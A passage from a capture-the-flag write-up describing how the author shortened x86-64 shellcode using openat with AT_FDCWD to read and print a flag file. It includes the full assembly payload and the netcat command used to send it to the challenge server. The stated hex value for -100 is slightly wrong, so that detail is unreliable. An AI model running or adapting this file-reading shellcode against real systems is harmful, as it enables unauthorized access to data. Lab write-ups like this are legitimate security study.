 I used [this](https://defuse.ca/online-x86-assembler.htm) site to compile my assembly to shellcode.

I was pretty confident I was on the right track at the time, but when starting the exploit, **nothing worked**. I had a really hard time trying to debug it, at some point I talked to an admin about where I was, and he hinted me towards the good direction.

- Dumb me had forgotten that I don't have infinite space to write the shellcode, and my current payload was way above the limit.

- Also as I said above, I did not **fully read** the man page and missed a pretty cool information !

Here's the important paragraph on the man:
```
If the pathname given in pathname is relative and dirfd is the
special value AT_FDCWD, then pathname is interpreted relative
to the current working directory of the calling process (like
open()).
```

Searching a bit, the value of `AT_FDCWD` is -100, so `0xffffffff9c`.

Since the **current working directory** is set as the home directory in the binary, I can use that to simply enter "flag.txt" as a pathname ! Effectively making my payload way shorter.

Here's the new payload:
```asm
mov    rax,0x101
movabs rdi,0xffffffff9c
push   0x0
movabs rsi,0x7478742e67616c66
push   rsi
lea    rsi,[rsp]
xor    rdx,rdx
syscall

push   rax
sub    rsp,0x20
xor    rax,rax
mov    rdi,QWORD PTR [rsp+0x20]
mov    rsi,rsp
mov    rdx,0x20
syscall

mov    rax,0x1
mov    rdi,0x1
mov    rsi,rsp
mov    rdx,0x20
syscall 
```

The last issue I had is that running the exploit with pwntools ([my exploit](./iloveassembly2_exploit.py)) was not working neither in local nor remote. Even tho my payload was correct since running it with GDB was working correctly.

I had to write out the payload to a file and do this `cat payload.bin | nc game1.marshack.fr 43003`... And voilà ! I got the flag !
